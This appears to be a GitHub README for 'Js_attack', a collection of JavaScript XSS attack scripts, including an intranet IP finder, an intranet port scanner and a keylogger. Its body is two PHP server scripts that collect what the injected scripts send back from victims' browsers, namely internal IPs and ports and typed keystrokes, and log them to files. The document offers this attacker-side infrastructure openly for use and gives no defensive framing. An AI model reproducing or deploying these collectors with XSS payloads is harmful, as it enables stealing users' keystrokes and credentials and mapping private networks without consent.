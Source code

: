 Js_attack - some .js with xss to attack
===================

Usage example
------------------

1.Get-Intranet-ip.js & Scan-Intranet-port.js Server:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    file_put_contents('./webrtc_ip.txt', $ip.' | '.$port.' | '.$time.' | from '.$from."\r\n", FILE_APPEND);
?>
```

2.keylogger.js Server:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");

if(!empty($_GET['c'])) {
	$key = $_GET['c']; 
	file_put_contents('./keylogger.txt', $key.' | '.$time.' | '.$from."\r\n", FILE_APPEND);
}
?>

```


